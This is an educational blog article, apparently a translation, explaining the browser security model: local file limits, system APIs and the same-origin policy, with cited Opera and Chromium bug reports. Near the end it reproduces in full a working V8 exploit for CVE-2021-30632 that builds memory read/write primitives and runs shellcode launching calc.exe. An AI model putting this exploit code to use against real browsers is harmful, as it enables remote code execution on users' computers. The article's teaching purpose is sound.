

# Browser Security Model

When discussing web frontend security issues, we must first have a basic understanding of the core of web frontend.

The biggest difference in web frontend is that the code runs on the browser. The browser is responsible for rendering your HTML, parsing your CSS, and executing JavaScript code on the page.

For web frontend, its execution environment is the browser.

In the example below, the outermost black circle represents the operating system, and the two green applications run on top of the operating system. The one on the right represents the browser, and the web frontend runs on top of the browser. The deeper the layer, the more restrictions there are:


It is important to remember this point in order to understand why there are things that web frontend cannot do. It's not that I don't want to do it, but the browser doesn't allow me to do it. For example, the backend server can easily perform file read and write operations, but it may not be achievable in web frontend. Why is that? Because the browser doesn't allow us to do it.

Why can I see others writing about __ (please fill in), but I can't find a way to do it in frontend? It is very likely because the browser does not allow you to do it.

In summary:

> If the browser doesn't give it to you, you can't get it. If you can't get it, you can't get it.

So what security restrictions does the browser impose? What does it limit? Here are a few examples.

## Prohibit Active Access to Local Files

For the backend, its code runs directly on the operating system, which means it is just a regular application. If there are no special permission restrictions, it can basically do whatever it wants. The whole machine is its playground.

But there are many restrictions for frontend. For example, it cannot "actively" read and write files on the computer. Let's talk about what is possible. You can use `<input type=file>` to allow users to select a file, and then use `FileReader` to read the contents of the file, like this:

``` html
<input type="file" onchange="show(this)">

<script>
function show(input) {
  const reader = new FileReader();
  reader.onload = (event) => {
    alert(event.target.result);
  };
  reader.readAsText(input.files[0]);
  
}
</script>
```

But you cannot directly use operations like `fetch('file:///data/index.html')` to read files. If you do this, you will only see an error in the console:

> Not allowed to load local resource: file:///data/index.html

Even using `window.open('file:///data/index.html')` will result in the same error.

There are absolute reasons why browsers have restrictions. What would happen if frontend web pages could directly read files? I could directly read your `/etc/passwd`, read your SSH key, read your configuration files and various files containing sensitive information. I could even find backup mnemonic phrases for encrypted cryptocurrency wallets on your computer. This would be a big problem, similar to being invaded by malware.

Therefore, it is very reasonable to prohibit JavaScript from actively accessing files. Otherwise, just by opening a webpage, all file contents would be exposed, leading to significant security issues.

In fact, such incidents have happened before. Let's look at a case.

In 2021, Renwa reported a vulnerability to Opera: [Bug Bounty Guest Post: Local File Read via Stored XSS in The Opera Browser](https://blogs.opera.com/security/2021/09/bug-bounty-guest-post-local-file-read-via-stored-xss-in-the-opera-browser/), which exploited a vulnerability in the browser to read files.

Opera is a browser built on Chromium, and it has a feature called "Opera Pinboards" that allows users to create notes and share them with others. The URL of the note page is `opera:pinboards`, which belongs to a special protocol and usually has special permissions.

When creating a note, you can include a link, for example: `https://blog.huli.tw`. Renwa discovered that in addition to using normal links, you can also use links of the type `javascript:alert(1)` to execute code, thus obtaining an XSS vulnerability under `opera:pinboards`!

As mentioned earlier, there are special permissions under `opera:`, such as being able to open `file://` web pages and take screenshots of web pages to obtain the screenshot results. Therefore, you can use the XSS mentioned earlier to open local files, take screenshots, and send them to the attacker's server, achieving the goal of stealing files.

This bug was fixed within a day after it was reported, and the reporter received a $4000 reward.

## Prohibit Calling System APIs

Regular applications can do many things, such as changing system settings or network settings, by using APIs provided by the system. However, JavaScript cannot do these things.

Or to be more precise, it is not that JavaScript itself cannot do it. It is just a programming language. It is because "the browser does not provide the corresponding API to the web frontend, so it cannot be done."

When we execute JavaScript on the front end of a web page, we can only use what the browser provides us. For example, we can use `fetch()` to send a request or use `setTimeout` to set a timer. These are interfaces provided by the browser that allow us to perform certain actions.

If we want to use system APIs, we can only do so if the browser also provides corresponding interfaces. Otherwise, JavaScript on the web page cannot access those functionalities.

For example, the browser provides the Web Bluetooth API for communication with Bluetooth devices. Therefore, JavaScript on the web page can be used to develop applications related to Bluetooth. Another example is the MediaDevices API, which allows JavaScript to access data from devices such as microphones and cameras, enabling the development of related applications.

When browsers provide these APIs, they also implement permission management mechanisms. Usually, a notification will pop up asking the user to actively agree and grant permission before allowing the web page to access certain resources.

## Prohibition of Accessing Content from Other Web Pages

This can be considered one of the most important security assumptions of browsers. A web page should never have permission to access the content of other web pages. This is easy to understand because if this were allowed, one could directly read emails from `mail.google.com` by accessing `blog.huli.tw`, which is obviously not secure.

Therefore, each web page has permissions only for itself. It can modify its own HTML and execute desired JavaScript code, but it should not access data from other web pages. This is known as the same-origin policy (SOP).

Moreover, this "data" is not limited to just "content on the page," but also includes not being able to access "the URLs of other pages."

For example, if the following code is executed on `github.com`:

``` js
var win = window.open('https://blog.huli.tw')
setTimeout(() => {
  console.log(win.location.href)
}, 3000)
```

The following error message will be displayed:



The message states:

> Uncaught DOMException: Blocked a frame with origin "https://github.com" from accessing a cross-origin frame.

This means that you cannot access content from other pages, including their URLs.

Although this may seem very basic and necessary, implementing this functionality in browsers is not that easy. Browsers have undergone numerous attacks and have implemented various defense measures and architectural adjustments to become increasingly secure and meet these security requirements.

For example, in January 2018, Google's Project Zero disclosed significant vulnerabilities called Meltdown and Spectre, which allowed reading data from the same process through CPU flaws.

Chrome browser responded to this vulnerability by adjusting its architecture to be more secure. It ensured that different web pages, regardless of how they are loaded (including images and iframes), are processed in separate processes. This series of security measures is known as Site Isolation, and you can find more detailed explanations on the [Chromium website](https://www.chromium.org/Home/chromium-security/site-isolation/). It will also be mentioned again in subsequent articles.

Regarding the point of "not being able to access content from other pages," let's look at an example of bypassing this restriction.

In 2022, joaxcar reported a vulnerability to Chromium: [Issue 1359122: Security: SOP bypass leaks navigation history of iframe from other subdomain if location changed to about:blank](https://bugs.chromium.org/p/chromium/issues/detail?id=1359122&q=subdomain%20host%20leak&can=1). This vulnerability allowed reading cross-origin URLs using an iframe.

Suppose the web page is `a.example.com` and contains an iframe with the URL `b.example.com`. By redirecting the iframe to `about:blank` using `frames[0].location = 'about:blank'`, the iframe becomes same-origin with `a.example.com`. At this point, accessing the iframe's navigation history using `frames[0].navigation.entries()` allows retrieving the original URL of `b.example.com`.

This should not happen. When an iframe is redirected to another URL, `navigation.entries()` should be cleared. Therefore, this is a bug.

This is an example of bypassing the same-origin policy. Although it only allows reading URLs, it is still a security vulnerability and earned a reward of $2000.

## Conclusion

The main point of this article is that "if the browser doesn't give it to you, you simply can't get it." This is a key difference between web front-end development and other execution environments. Conversely, if you manage to obtain something that the browser doesn't provide, it means you have found a vulnerability in the browser and can report it for a reward.

So, what is the most severe browser vulnerability? It is the one that allows attackers to bypass browser restrictions and perform actions that violate the browser's security assumptions.

For example, as mentioned earlier, SOP bypass can violate the same-origin policy and access data from other web pages. Although the previous example only demonstrated the ability to read URLs, more sophisticated attacks can even access the content itself. For instance, imagine you open `https://blog.huli.tw` to read my blog post, but behind the scenes, my website secretly executes JavaScript code that exploits the SOP bypass vulnerability to read all the content of your emails on `https://mail.google.com`.

Sounds terrifying, right? But it gets even scarier.

The most severe type of vulnerability allows attackers to execute arbitrary commands on a computer using JavaScript. This type of vulnerability is called Remote Code Execution (RCE).

Let's provide another example. Suppose you visit my blog, read some articles, and then close the page. However, at that moment, I can already issue commands to your computer. I can steal all the data from your computer or secretly install malicious software. In the past, there have been numerous cases of such vulnerabilities being exploited. Every now and then, browsers expose these most severe vulnerabilities. As regular users, our best course of action is to update our browsers promptly to minimize exposure to such dangers.

In September 2021, a vulnerability with the identifier CVE-2021-30632 was discovered. It is the aforementioned RCE vulnerability. By simply opening a webpage using Chrome browser (version earlier than v93), an attacker can directly invade your computer and execute commands.

Are you curious about what JavaScript code typically looks like in these types of attacks? How do they exploit certain functionalities to ultimately execute arbitrary code through the browser?

Below is one of the exploits for CVE-2021-30632, sourced from: [https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html](https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html)

``` html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
<script type="text/javascript">

function gc() {
  for(var i = 0;i < ((1024*1024)); i++) {
    new String();
  }
}

var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module);
var main = instance.exports.main;

function foo(y) {
  x = y;
}

function oobRead() {
  //addrOf b[0] and addrOf writeArr::elements
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;
var x = arr0;

gc();gc();
  
var arr = new Array(30); arr.fill(4); arr.a = 1;
var b = new Array(1); b.fill(1);
var writeArr = [1.1];

for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}

x[0] = 1.1;

for (let i = 0; i < 20000; i++) {
  oobRead();
}

for (let i = 0; i < 20000; i++) oobWrite(1.1);
foo(arr);

var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Int32Array(view);
var bigIntView = new BigInt64Array(view);
b[0] = instance;
var addrs = oobRead();

function ftoi32(f) {
  dblArr[0] = f;
  return [intView[0], intView[1]];
}

function i32tof(i1, i2) {
  intView[0] = i1;
  intView[1] = i2;
  return dblArr[0];
}

function itof(i) {
  bigIntView = BigInt(i);
  return dblArr[0];
}

function ftoi(f) {
  dblArr[0] = f;
  return bigIntView[0];
}


dblArr[0] = addrs[0];
dblArr[1] = addrs[1];

function addrOf(obj) {
  b[0] = obj;
  let addrs = oobRead();
  dblArr[0] = addrs[0];
  return intView[1]; 
}

function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));
  return writeArr[0];
}

function arbRead1(addr) {
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, addr));
  return writeArr[0];
}

function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

function writeShellCode1(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
 
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, intArrAddr + 0x20));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

var other_method = false;
var instanceAddr = addrOf(instance);
var elementsAddr = ftoi32(addrs[1])[0];

if((elementsAddr & 0xFFFF) == 0x222D) {
  other_method = true;
  elementsAddr = ftoi32(addrs[1])[1];
}

var shellCode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
      0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
      0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
      0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
      0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
      0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
      0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
      0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
      0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
      0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
      0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
      0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
      0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
      0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
      0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
      0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
      0x65, 0x78, 0x65, 0x00];

var rwxAddr;
if(other_method == false) {
  rwxAddr = arbRead(instanceAddr + 0x60);
  writeShellCode(rwxAddr, shellCode);
}
else {
  rwxAddr = arbRead1(instanceAddr + 0x60);
  writeShellCode1(rwxAddr, shellCode);
}

main();

</script>
</body>
</html>
```

Since the vulnerability exists within V8, you can see that the code above performs many operations that may seem incomprehensible. These operations are usually designed to satisfy certain conditions that trigger issues in V8. However, providing a detailed explanation is beyond the scope of this translation. If you're interested, you can refer to the detailed analysis written by the GitHub security team: [Chrome in-the-wild bug analysis: CVE-2021-30632](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/)

By the way, some engineers who are not familiar with the limitations of JavaScript often try to accomplish things that are fundamentally impossible with JavaScript.

Once you understand the basic security model of browsers, when faced with tasks that cannot be achieved, you can confidently tell the project manager, "Yes, this functionality cannot be implemented on the web front-end because the browser does not allow it," instead of searching everywhere for ways to call non-existent APIs.
